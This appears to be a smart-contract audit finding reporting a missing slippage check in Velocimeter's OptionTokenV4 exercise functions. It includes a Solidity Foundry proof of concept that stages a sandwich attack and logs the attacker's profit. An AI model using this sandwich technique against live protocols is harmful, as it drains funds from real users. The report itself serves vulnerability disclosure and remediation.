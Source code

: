 Broad Cherry Viper

High

# When calling `exercise*`, it is vulnerable to a sandwich attack

## Summary

When calling `exercise*`, there is no slippage check, which makes users vulnerable to a sandwich attack

## Vulnerability Detail

In the `OptionTokenV4.exercise*` functions, the slippage check only verifies `paymentAmount` but does not check `paymentAmountToAddLiquidity`.

https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/OptionTokenV4.sol#L580-L581

https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/OptionTokenV4.sol#L608-L609

https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/OptionTokenV4.sol#L667-L668

Although `getPaymentTokenAmountForExerciseLp` uses `twap` to calculate `paymentAmount` to ensure that the price is not manipulated, the calculation of `paymentToken` is still done using `amount * paymentReserve / underlyingReserve`, which does not use `twap` pricing.

Therefore, when users call `exercise*`, even though the `paymentReserve` (underlying Token) is checked, the `paymentAmountToAddLiquidity` (paymentToken) is not checked. Additionally, when calling `addLiquidity`, `amountAMin` and `amountBMin` are set to 1, making the `paymentToken` vulnerable to attacks.

<details>

<summary>Coded Poc</summary>

### OptionTokenV4.t.sol

```solidity
    function testSandWichExerciseLp() public { 
        // init
        vm.startPrank(address(owner)); 
        FLOW.approve(address(oFlowV4), TOKEN_1 * 10000000);
        oFlowV4.mint(address(owner2), 10000 * TOKEN_1);
        oFlowV4.mint(address(owner3), TOKEN_1);
        washTrades();
        vm.stopPrank();

        (uint256 underlyingReserve, uint256 paymentReserve) = router.getReserves(oFlowV4.underlyingToken(), oFlowV4.paymentToken(), false);
        console.log("underlingReserve:%d, paymentReserve:%d", underlyingReserve / 1e18, paymentReserve/1e18);
        console.log("DAI    owner2:%d, owner3:%d", DAI.balanceOf(address(owner2))/1e18, DAI.balanceOf(address(owner3))/1e18);
        console.log("FLOW   owner2:%d, owner3:%d", FLOW.balanceOf(address(owner2))/1e18, FLOW.balanceOf(address(owner3))/1e18);

        Router.route[] memory routes = new Router.route[](1);
        routes[0] = Router.route(address(DAI), address(FLOW), false);

        uint256[] memory expectedOutput = router.getAmountsOut(
                TOKEN_1,
                routes
            );
        vm.startPrank(address(owner3));
        FLOW.approve(address(router), type(uint256).max);
        DAI.approve(address(router), type(uint256).max);
        router.swapExactTokensForTokens(
                10000 * TOKEN_1,
                1,
                routes,
                address(owner3),
                block.timestamp
            );
        vm.stopPrank();
        console.log("----------- sandwich attack -----------");
        (underlyingReserve, paymentReserve) = router.getReserves(oFlowV4.underlyingToken(), oFlowV4.paymentToken(), false);
        console.log("underlingReserve:%d, paymentReserve:%d", underlyingReserve / 1e18, paymentReserve/1e18);
        console.log("owner2:%d, owner3:%d", DAI.balanceOf(address(owner2))/1e18, DAI.balanceOf(address(owner3))/1e18);
        console.log("FLOW   owner2:%d, owner3:%d", FLOW.balanceOf(address(owner2))/1e18, FLOW.balanceOf(address(owner3))/1e18);
        (uint256 flowAmount, uint256 daiAmount) = oFlowV4.getPaymentTokenAmountForExerciseLp(100000 * TOKEN_1, 80);

        console.log("----------- After sandwich attack -----------");
        // owner2 call exerciseLp
        vm.startPrank(address(owner2));
        DAI.approve(address(oFlowV4), type(uint256).max);
        oFlowV4.exerciseLp(10000 * TOKEN_1, 10000 * TOKEN_1, address(owner2), 80, block.timestamp);
        vm.stopPrank();
        (underlyingReserve, paymentReserve) = router.getReserves(oFlowV4.underlyingToken(), oFlowV4.paymentToken(), false);
        console.log("underlingReserve:%d, paymentReserve:%d", underlyingReserve / 1e18, paymentReserve/1e18);
        console.log("owner2:%d, owner3:%d", DAI.balanceOf(address(owner2))/1e18, DAI.balanceOf(address(owner3))/1e18);
        console.log("FLOW   owner2:%d, owner3:%d", FLOW.balanceOf(address(owner2))/1e18, FLOW.balanceOf(address(owner3))/1e18);

        console.log("----------- finsh sandwich attack -----------");
        routes[0] = Router.route(address(FLOW), address(DAI), false);

        expectedOutput = router.getAmountsOut(
                TOKEN_1,
                routes
            );
        vm.startPrank(address(owner3));
        FLOW.approve(address(router), type(uint256).max);
        DAI.approve(address(router), type(uint256).max);
        uint[] memory amounts = router.swapExactTokensForTokens(
                10000 * TOKEN_1,
                1,
                routes,
                address(owner3),
                block.timestamp
            );
        vm.stopPrank();
        console.log("owner2:%d, owner3:%d", DAI.balanceOf(address(owner2))/1e18, DAI.balanceOf(address(owner3))/1e18);
        console.log("get DAI amount: %d", amounts[1]/1e18); // owner3 principal is 10000 DAI,result 11004 DAI
        
        /*result:
   Logs:
  underlingReserve:100299, paymentReserve:100300
  DAI    owner2:1000000000000, owner3:1000000000000
  FLOW   owner2:1000000000, owner3:1000000000
  ----------- sandwich attack -----------
  underlingReserve:91207, paymentReserve:110299
  owner2:1000000000000, owner3:999999990000
  FLOW   owner2:1000000000, owner3:1000009092
  DAI amount: 120932
  ----------- After sandwich attack -----------
  underlingReserve:101207, paymentReserve:122392
  owner2:999999980632, owner3:999999990000
  FLOW   owner2:1000000000, owner3:1000009092
  ----------- finsh sandwich attack -----------
  owner2:999999980632, owner3:1000000001004
  get DAI amount: 11004
        
        */
    }
```

</details>

## Impact

Users will lose a substantial amount of money.

## Code Snippet

https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/OptionTokenV4.sol#L608-L609

https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/OptionTokenV4.sol#L667-L668

## Tool used

Manual Review

## Recommendation

Slippage checks are also needed for the `paymentToken`.